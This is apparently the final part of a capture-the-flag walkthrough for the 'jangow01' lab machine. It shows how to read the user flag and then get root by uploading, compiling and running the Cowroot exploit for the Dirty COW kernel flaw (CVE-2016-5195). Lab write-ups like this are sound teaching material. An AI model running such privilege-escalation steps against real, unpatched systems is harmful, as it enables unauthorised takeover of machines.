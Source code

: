 We should get a shell with access to the system.

### Obtaining the user flag
Once we are in, we can get the user flag:

```bash
cd /home/jangow01
ls
cat user.txt
```

## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges.

We start by looking for which Linux kernel version is the system running. We execute the command:

```bash
uname -a
```

After running it, we can see that the Linux Kernel version running is 4.4.0-31-generic which is vulnerable to the vulnerability **CVE-2016-5195** (this vulnerability affects memory race conditions, it allows us to escalate privileges locally using the *copy-on -write* feature that allows us to write memory addresses that should be read-only).

Searching the internet we found the exploit Cowroot. We download it using **wget**. Once we have it, we access the FTP server again and run:

```bash
cd /hom/jangow01
put cowroot.c
```

Exit the FTP.

In the shell that we already have (as the user *jangow01*), we follow the exploit instructions:

```bash
# Access the user directory
cd /home/jangow01

# Compile the exploit
gcc cowroot.c -o cowroot -pthread

# Execute the exploit
./cowroot
```

Finally (if everything has worked correctly), we have access as superuser, we have the whole system committed and (of course) we can now obtain the root flag of the machine.

> H4Ppy H4ck1ng!
